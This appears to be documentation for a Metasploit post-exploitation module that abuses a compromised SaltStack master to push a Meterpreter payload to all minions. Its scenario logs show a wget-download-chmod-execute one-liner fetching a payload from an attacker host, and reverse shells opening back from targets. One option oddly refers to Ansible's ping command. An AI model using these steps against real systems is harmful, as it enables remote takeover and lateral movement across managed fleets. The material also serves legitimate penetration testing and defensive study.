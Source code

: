 ## Vulnerable Application

This exploit module uses saltstack salt to deploy a payload and run it
on all targets which have been selected (default all).
Currently only works against nix targets.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/saltstack_salt_minion_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### SALT

Location of salt-master executable if not in a standard location. This is added to a list of default locations
which includes `/usr/bin/salt-master`. Defaults to ``

### MINIONS

Which minions to target. Defaults to `*`

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write and execute our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

Get initial access to the system. In this case, root was required to execute salt commands successfully.

```
resource (salt_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set srvport 8181
srvport => 8181
resource (salt_deploy.rb)> set target 7
target => 7
resource (salt_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/hvy2Ol
[*] Server started.
[*] Run the following command on the target machine:
wget -qO exVJILEV --no-check-certificate http://1.1.1.1:8181/hvy2Ol; chmod +x exVJILEV; ./exVJILEV& disown
[*] 3.3.3.3    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 3.3.3.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 3.3.3.3:45200) at 2023-12-16 09:59:02 -0500
```

```
resource (salt_deploy.rb)> use exploit/linux/local/saltstack_salt_minion_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set session 1
session => 1
resource (salt_deploy.rb)> set verbose true
verbose => true
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set lport 9996
lport => 9996
[msf](Jobs:1 Agents:0) exploit(linux/local/saltstack_salt_minion_deployer) > 

[msf](Jobs:1 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9996 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and salt-master executable found
[+] The target is vulnerable.
[*] Attempting to list minions
[*] minions:
- mac_minion
- salt-minion
- window-salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 3.3.3.3:45200 - minion file successfully retrieved and saved to /root/.msf4/loot/20231216100004_default_3.3.3.3_saltstack_minion_890818.yaml
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  mac_minion
 Accepted  salt-minion
 Accepted  window-salt-minion

[+] 3 minions were found accepted, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Writing '/tmp/E76Azw' (336 bytes) ...
[*] Copying payload to minions

[*] Executing payloads
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9996 -> 2.2.2.2:36850) at 2023-12-16 10:00:46 -0500
```
